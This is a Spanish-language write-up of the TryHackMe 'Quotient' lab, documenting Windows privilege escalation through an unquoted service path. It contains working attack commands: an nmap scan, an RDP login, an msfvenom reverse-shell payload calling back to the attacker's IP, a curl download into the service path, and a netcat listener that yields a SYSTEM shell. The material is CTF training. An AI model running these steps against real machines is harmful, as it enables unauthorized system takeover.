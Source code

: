 ## TryHackMe  <> Quotient

![image](https://github.com/Esevka/CTF/assets/139042999/28759a27-063b-4694-990c-876288262a90)

## Datos del enunciado.

  ![image](https://github.com/Esevka/CTF/assets/139042999/d79d40fe-9701-4546-a261-706364b36ec9)

Info -> La maquina no responde a trazas ICMP(ping)

---
---

## Escaneo de puertos

  Aunque nos diga en el enunciado que nos conectemos a la maquina por el servicio RDP, haremos un escaneo
	de la maquina en busca de puertos abiertos.

		┌──(root㉿kali)-[/home/…/Desktop/ctf/quotient/nmap]
		└─# nmap -p- --open -sS --min-rate 5000 -n -Pn -sCV -vvv 10.10.246.164 -o open_ports
		PORT     STATE SERVICE       REASON          VERSION
		3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
		|_ssl-date: 2023-07-08T11:39:57+00:00; 0s from scanner time.
		| rdp-ntlm-info: 
		|   Target_Name: THM-QUOTIENT
		|   NetBIOS_Domain_Name: THM-QUOTIENT
		|   NetBIOS_Computer_Name: THM-QUOTIENT
		|   DNS_Domain_Name: thm-quotient
		|   DNS_Computer_Name: thm-quotient
		|   Product_Version: 10.0.17763
		|_  System_Time: 2023-07-08T11:39:53+00:00
		| ssl-cert: Subject: commonName=thm-quotient
		| Issuer: commonName=thm-quotient
		| Public Key type: rsa
		| Public Key bits: 2048
		| Signature Algorithm: sha256WithRSAEncryption
		| Not valid before: 2023-07-07T11:32:25
		| Not valid after:  2024-01-06T11:32:25
		| MD5:   b2b857fa56054d1465375d4e2e3f65b3
		| SHA-1: 347f0b3305a68447ddb32cfac84f2d651a2524e1
		| -----BEGIN CERTIFICATE-----
		| MIIC3DCCAcSgAwIBAgIQcba9rkDbYZxF0CE0X+9BFzANBgkqhkiG9w0BAQsFADAX
		| MRUwEwYDVQQDEwx0aG0tcXVvdGllbnQwHhcNMjMwNzA3MTEzMjI1WhcNMjQwMTA2
		| MTEzMjI1WjAXMRUwEwYDVQQDEwx0aG0tcXVvdGllbnQwggEiMA0GCSqGSIb3DQEB
		| AQUAA4IBDwAwggEKAoIBAQDRSKedf05O4qY+MD3wFXACWO29XCwScBrAitmGlTwu
		| /AXSK9aVxVL2nhtV+3RbdlU/cCgIpSDpTrRAy4FkW0PMJndXU6vMAs6foczd5F+l
		| iyXYg0WFPIs5/DbMu5Q/t9CjH54/ZXoV5pq/IAmbKxBiUoNZGGtslb2Fe7DZ0vgR
		| RXAKV7tUaLdlFK7EffCIJOGxa1cmC8RMArmFYGw9YPlir5q/xffvMyoaN2hnm8o5
		| zkgOqyhrgJSPo3Mbqwhpl8XwPQ5ridJLnYH3adhTnKm3FqRD3B/qBmP1Q4yDqjJx
		| jyVIh9fzN9BDTOHVYOTiaForMwD+yG7FnEUrREiQ7WUhAgMBAAGjJDAiMBMGA1Ud
		| JQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEA
		| XlSv/p0jnMjSuM9Pl6uIb7HA3AiTff9A8vvPc+W3gL7umSEAqAac039WLWxJ/pyW
		| UnRmVRPFGGgRdZA7JxnNxSJaXTcXHQViydAfXdmuzdhskAQZRPvVoNodxjFvBdMU
		| A4yCyafiLGfXwsy+ijLbn5hJGKm+cHqKWBNHFXP3sjirx+i2At5NnsSuVjalC4/e
		| uALmgTaPCnsRolxgpCZNfS0r7UiT6smVJc4NINZSVsLdy+KAc/I/esZBvIm2h/Xm
		| 6EKrLBNoId1Kz85wN3YgLpiCjDZiSY+eIAOAfAuuHHQAfjitxE9UTMhLyLMC2E49
		| pPfVvYVlXEznEvNXyKfXmw==
		|_-----END CERTIFICATE-----
		Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

## Conexion a Microsoft Terminal Services

  Nos conectamos al servicio RDP, esto nos nos muestra una ventana de escritorio remoto donde podemos 
	trabajar con la maquina windows (victima), utilizamos las credenciales que nos entregan en el enunciado.

	┌──(root㉿kali)-[/home/…/Desktop/ctf/quotient/nmap]
	└─# xfreerdp /v:10.10.246.164:3389 /u:sage /p:'gr33ntHEphgK2&V'

## Explotacion de vulnerabilidades

Navegando por los distintos directorios encontramos algo interesante.
	
	c:\Program Files\Development Files\Devservice Files>
		03/07/2022  04:03 AM         5,966,336 Service.exe  

Buen rato despues tras buscar info sobre el binario Service.exe  por la maquina, task manager, servicios que estan corriendo etc, encontramos que dicho binario es parte de un servicio llamado "Development Service", dicho servicio tiene el tipo de inicio automatico y el path de ejecucion siguiente.

    c:\Program Files\Development Files\Devservice FilesService.exe

Vemos que el path de ejecucion no esta entre "", por lo que puede ser explotado a traves de un ataque llamado Unquoted Service Paths.
Explicacion mas detallada del ataque --> https://deephacking.tech/unquoted-service-paths-privilege-escalation-en-windows/

Todo lo anterior tambien lo podemos ver con el comando sc.

		C:\Users\Sage>sc qc "Development Service" 

		     [SC] QueryServiceConfig SUCCESS

		     SERVICE_NAME: Development Service                                                                                                    
		     TYPE               : 10  WIN32_OWN_PROCESS                                                                                   
		     START_TYPE         : 2   AUTO_START                                                                                          
		     ERROR_CONTROL      : 1   NORMAL                                                                                              
		     BINARY_PATH_NAME   : C:\Program Files\Development Files\Devservice Files\Service.exe                                         
		     LOAD_ORDER_GROUP   :                                                                                                         
		     TAG                : 0                                                                                                       
		     DISPLAY_NAME       : Developmenet Service                                                                                    
		     DEPENDENCIES       :                                                                                                         
		     SERVICE_START_NAME : LocalSystem
       
  SERVICE_START_NAME : LocalSystem   ----> INFO (https://learn.microsoft.com/en-us/windows/win32/services/localsystem-account)

---

  Por lo que llegados a este punto, podriamos crear una reverse shell, realizando el ataque Unquoted Service Paths y ver si esto nos entrega una shell como administrador de la maquina.

## Escalando privilegios (nt authority\system)

Creamos la reverse shell con msfvenom y la pasamos a la maquina victima, a la ruta adecuada, con el nombre adecuado.

	┌──(root㉿kali)-[/home/…/Desktop/ctf/quotient/script]
	└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.64.232 LPORT=1988 -f exe -o reverse.exe
	[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
	[-] No arch selected, selecting arch: x64 from the payload
	No encoder specified, outputting raw payload
	Payload size: 460 bytes
	Final size of exe file: 7168 bytes
	Saved as: reverse.exe
	
Creamos un servidor http en nuestra maquina para compartir la shell.

		┌──(root㉿kali)-[/home/…/Desktop/ctf/quotient/script]
		└─# python3 -m http.server 80                           
		Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

Nos descargamos la shell en la maquina victima

		c:\Program Files\Development Files>curl http://10.8.64.232/reverse.exe -o Devservice.exe 
		    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                          Dload  Upload   Total   Spent    Left  Speed                                           100  7168  100  7168    0     0  28789      0 --:--:-- --:--:-- --:--:-- 28903                                                                                                                                                                  
		    c:\Program Files\Development Files>dir                                                                                   
		    Volume in drive C has no label.                                                                                         
		    Volume Serial Number is 4448-19F9                                                                                                                                                                                                               
		    Directory of c:\Program Files\Development Files                                                                                                                                                                                               
		     07/09/2023  09:20 AM    <DIR>          .                                                                                
		     07/09/2023  09:20 AM    <DIR>          ..                                                                               
		     03/07/2022  04:03 AM    <DIR>          Devservice Files                                                                 
		     07/09/2023  09:20 AM             7,168 Devservice.exe                                                                                  
		     1 File(s)          7,168 bytes                                                                                          
		     3 Dir(s)  25,144,979,456 bytes free  

Nos ponemos en escucha con netcat en nuesta maquina atacante.

		┌──(root㉿kali)-[/home/…/Desktop/ctf/quotient/script]
		└─# nc -lnvp 1988            
		listening on [any] 1988 ...


Reiniciamos la maquina windows

    c:\Program Files\Development Files>shutdown /r /t 00 

Si todo esta correcto debemos recibir nuestra shell.

		┌──(root㉿kali)-[/home/…/Desktop/ctf/quotient/script]
		└─# nc -lnvp 1988            
		listening on [any] 1988 ...
		connect to [10.8.64.232] from (UNKNOWN) [10.10.39.91] 49670
		Microsoft Windows [Version 10.0.17763.3165]
		(c) 2018 Microsoft Corporation. All rights reserved.

		C:\Windows\system32>whoami
			whoami
			nt authority\system

		c:\Users\Administrator\Desktop>type flag.txt
			type flag.txt
			THM{flag}
---

   

---> Maquina  Quotient completa <---






